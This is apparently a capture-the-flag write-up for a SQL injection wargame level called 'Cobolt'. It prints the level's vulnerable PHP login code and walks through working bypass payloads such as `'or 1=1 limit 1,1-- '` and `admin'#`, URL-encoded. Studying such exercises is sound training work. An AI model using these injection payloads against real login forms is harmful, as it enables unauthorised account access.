 # **Cobolt**

```shell=
<?php  
  include "./config.php";   
  login_chk();  
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id'] == 'admin') solve("cobolt");  
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";   
  highlight_file(__FILE__);   
?>
```

First, input the payload of challenge 1, `?id='or 1=1 -- '`, you'll get page like following:

![](https://i.imgur.com/HFBTMaM.png)

I later notice that pw=md5('{$_GET[pw]}'), is that PHP MD5 vulnerability?

Let's try `?id=admin&pw=240610708`.

![](https://i.imgur.com/JAMyU7D.png)

Sad, seems not like that.

Then, i notice that : `<h2>Hello {$result['id']}<br>You are not admin :(</h2>`.

So, `rubiya` actually login, I just mistake that as totally failed message.

This means `rubiya` is the first `id` data of `prob_cobolt` table.

For this, we can use LIMIT to query other data instead of first data.

`LIMIT [Query start number],[Query data amount]`

In here, `$result = @mysql_fetch_array(mysql_query($query));` just only get one data, so `[Query data amount]` can only be 1, bigger one is useless.

You can try `[Query start number]` from east to west, by here's answer is 
```?id='or 1=1 limit 1,1-- '```

![](https://i.imgur.com/2KFFseS.png)

Another method:

```?id=admin%27%23```           (?id=admin'#)

Cuz `#` will be ignored by browser, turn it to hex value to make it executable.

![](https://i.imgur.com/UH5sQle.png)

